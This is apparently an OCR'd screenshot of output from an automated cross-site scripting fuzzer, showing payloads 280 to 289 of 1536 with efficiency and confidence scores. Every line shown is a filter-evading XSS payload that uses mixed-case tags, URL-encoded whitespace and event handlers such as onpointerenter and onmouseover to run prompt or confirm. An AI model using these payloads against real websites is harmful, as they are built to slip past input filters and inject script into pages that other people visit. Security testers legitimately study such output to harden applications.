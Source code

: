  Progress: 280/1536
 
------------------------------------------------------------
 Payload: <htMl%0aoNpoIntErenTEr%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 281/1536
 
------------------------------------------------------------
 Payload: <D3V%0dOnMOUSeover+=+(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 282/1536
 
------------------------------------------------------------
 Payload: <A/+/OnpoINTErEnteR%09=%09(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 283/1536
 
------------------------------------------------------------
 Payload: <D3v%09oNMoUseoveR%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 284/1536
 
------------------------------------------------------------
 Payload: <DETaIls/+/oNPoINTeREnter%09=%09[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 285/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONmOUSEovER%0d=%0d(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 286/1536
 
------------------------------------------------------------
 Payload: <A%0aoNPOintEReNtEr%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 287/1536
 
------------------------------------------------------------
 Payload: <A%0aONMouSeovER%0a=%0a[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 288/1536
 
------------------------------------------------------------
 Payload: <html%0aOnMOuSeovER%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 289/1536
 